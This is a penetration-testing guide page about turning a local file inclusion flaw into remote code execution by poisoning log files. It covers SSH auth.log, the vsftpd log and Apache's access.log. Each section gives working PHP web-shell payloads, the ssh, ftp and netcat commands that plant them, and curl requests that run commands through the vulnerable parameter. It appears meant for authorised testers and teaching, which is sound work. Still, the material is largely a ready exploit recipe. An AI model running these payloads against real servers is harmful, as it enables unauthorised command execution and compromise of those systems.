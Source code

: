 * directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

### LFI to RCE (via logs poisoning)

{% hint style="warning" %}
Log files may be stored in different locations depending on the operating system/distribution.
{% endhint %}

#### /var/log/auth.log

For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth.log`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
# Sending the payload via SSH
ssh '<?php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

#### /var/log/vsftpd.log

When the FTP service is available, testers can try to access the `/var/log/vsftpd.log` and see if any content is displayed. If that's the case, log poisoning may be possible by connecting via FTP and sending a payload (depending on which web technology is used).

```bash
# Sending the payload via FTP
ftp $TARGET_IP
> '<?php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/vsftpd.log&cmd=id
```

#### var/log/apache2/access.log

When the web application is using an Apache 2 server, the `access.log` may be accessible using an LFI.

* **About `access.log`**: records all requests processed by the server.
* **About netcat**: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/access.log&cmd=id
```
